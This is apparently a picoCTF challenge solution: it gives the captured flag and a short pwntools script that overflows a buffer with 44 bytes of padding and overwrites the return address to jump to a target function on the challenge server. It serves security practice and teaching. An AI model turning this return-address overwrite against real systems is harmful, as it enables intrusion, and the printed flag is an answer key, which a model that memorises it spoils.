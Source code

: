 flag: picoCTF{addr3ss3s_ar3_3asy_2e7003a1}
solution:

buffer= cyclic(44)
jumpAddr=p32(0x080491f6)
def remoteExploit(): #ok
    r = remote('saturn.picoctf.net', 63814)
    payload = buffer + jumpAddr
    r.sendlineafter(':', payload)
    r.interactive()